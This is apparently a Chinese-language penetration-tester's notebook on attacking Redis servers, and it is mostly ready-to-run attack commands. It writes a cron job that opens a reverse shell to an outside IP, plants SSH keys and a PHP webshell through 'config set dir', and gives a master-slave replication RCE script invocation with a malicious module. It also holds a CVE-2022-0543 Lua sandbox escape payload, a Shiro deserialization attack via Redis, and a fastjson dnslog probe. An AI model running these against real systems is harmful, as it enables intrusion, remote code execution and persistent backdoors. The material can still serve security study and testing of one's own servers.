# 直接利用

https://github.com/qishibo/AnotherRedisDesktopManager

>未授权/弱口令



## 文件写入

1. 计划任务反弹shell

>以root权限启动,发行版限制为centos/redhat,涉及到计划任务的格式问题

```
set x '\n\n*/1 * * * * bash -i >& /dev/tcp/192.168.1.1/12345 0>&1\n\n'
config set dir /var/spool/cron/
config set dbfilename root
save
```

2. 写入ssh公钥

>以root权限启动,系统允许密钥登录

```
set x '\n\nssh-rsa xxx\n\n'
config set dir /root/.ssh
config set dbfilename authorized_keys
save
```

>也可以写入/etc/shadow

3. 写入webshell

>已知web目录,具有写权限

```
set x '\n\n<?php phpinfo();?>\n\n'
config set dir /var/www/html
config set dbfilename info.php
save
```

## 主从复制RCE

>linux加载恶意so文件,windows加载恶意dll文件

通过主从复制,将恶意文件从主机通过FULLRESYNC同步到从机,从机加载恶意文件达到RCE目的

[恶意文件so](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand.git)

make编译得到so文件

[主从复制脚本](https://github.com/Ridter/redis-rce)

`python3 redis-rce.py -r 127.0.0.1 -L 172.17.0.1 -f module.so`



>流量分析

- 正常的redis服务称为r1,exp伪装的redis服务称为r2

- r2向r1发送`INFO`请求,根据回显中是否包含`NOAUTH`字段判断r1是否需要鉴权

- r2向r1发送`slaveof host port`命令,让r1转变为r2的从属服务器,r1响应`OK`

- r2向r1发送`config set dbfilename module.so`设置文件名,r1响应`OK`

- r1向r2发送`PING`,测试链接是否生效,r2响应`PONG`

- r1向r2定时发送`REPLCONF`,类似于存活检测机制,r2响应`OK`

- 检测到r1发送`PSYNC`同步请求时,r2响应`FULLRESYNC`并将恶意so文件同步到r1中,完成该操作后,r2向r1发送`module load module.so`加载恶意so,并发送`slaveof no one`关闭主从复制

>windows参考

https://github.com/0671/RedisModules-ExecuteCommand-for-Windows

需要vs2017

//TODO windows测试

## CVE-2022-0543

Redis-Lua沙盒绕过命令执行

>没在真实环境中见过,参考vulhub里面的漏洞复现

我们借助Lua沙箱中遗留的变量`package`的`loadlib`函数来加载动态链接库`/usr/lib/x86_64-linux-gnu/liblua5.1.so.0`里的导出函数`luaopen_io`。在Lua中执行这个导出函数，即可获得`io`库，再使用其执行命令：

```lua
local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io");
local io = io_l();
local f = io.popen("id", "r");
local res = f:read("*a");
f:close();
return res
```

值得注意的是，不同环境下的liblua库路径不同，你需要指定一个正确的路径。在我们Vulhub环境（Ubuntu fiocal）中，这个路径是`/usr/lib/x86_64-linux-gnu/liblua5.1.so.0`。

连接redis，使用`eval`命令执行上述脚本：

```lua
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

# 间接利用

## 与shiro结合

shiro中的序列化后的session被保存在redis中,通过redis未授权访问,修改shiro的序列化数据进行任意反序列化达到rce目的

[https://github.com/alexxiyang/shiro-redis-spring-boot-tutorial](https://github.com/alexxiyang/shiro-redis-spring-boot-tutorial)





利用ysoserial生成exp,在redis中新建一个session的键值对,将exp保存到其中





修改jessionid重新发包即可





## 与fastjson结合

以[https://github.com/MiracleTanC/springboot-redis-demo](https://github.com/MiracleTanC/springboot-redis-demo)为例

redis中保存了当前文章的阅读次数



添加`viewcount_2:{"asdf":1"}`一个错误的json查看页面的回显



错误回显中提示在进行`parseObject`时出现异常

使用dnslog进行测试

```json
{
    "@type": "java.net.Inet4Address",
    "val": "f2af98d28e.ipv6.1433.eu.org"
}
```



## ssrf利用

//TODO ssrf


# Windows攻击面拓展

[踩坑记录-Redis(Windows)的getshell](https://xz.aliyun.com/t/7940)